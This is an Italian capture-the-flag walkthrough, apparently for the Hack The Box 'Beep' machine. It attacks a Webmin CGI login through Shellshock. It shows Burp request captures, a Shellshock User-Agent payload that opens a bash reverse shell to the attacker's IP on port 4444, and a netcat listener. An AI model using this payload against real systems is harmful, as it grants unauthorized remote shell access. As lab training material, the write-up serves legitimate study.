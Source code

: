 
## ShellShock

Proviamo ad attaccare il prompt di login sulla porta 1000

Inviamo un richiesta di login ed analizziamola con [[BurpSuite]]

```bash
POST /session_login.cgi HTTP/1.1 Host: 10.10.10.7:10000 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 28 
Origin: https://10.10.10.7:10000 
DNT: 1 
Connection: close 
Referer: https://10.10.10.7:10000/ 
Cookie: testing=1; sid=x 
Upgrade-Insecure-Requests: 1 

page=%2F&user=root&pass=root
```

Crea una richiesta POST a /session_login.cgi.

Ogni volta che c'è CGI , proviamo ad utilizzare la vulnerabilità [[Shocker|ShellShock]]. 
Per testare, trasferirò la richiesta di accesso a Repeater e sostituirò l'intestazione User-Agent con la stringa exploit Shellshock 

`User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1`

Prima ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 4444
listening on [any] 4444 ...

```

Fatto questo modifichiamo la richiesta di burp come detto in precedenza

```bash
POST /session_login.cgi HTTP/1.1 Host: 10.10.10.7:10000 
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.34/4444 0>&1
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 28 
Origin: https://10.10.10.7:10000 
DNT: 1 
Connection: close 
Referer: https://10.10.10.7:10000/ 
Cookie: testing=1; sid=x 
Upgrade-Insecure-Requests: 1 

page=%2F&user=root&pass=root

```
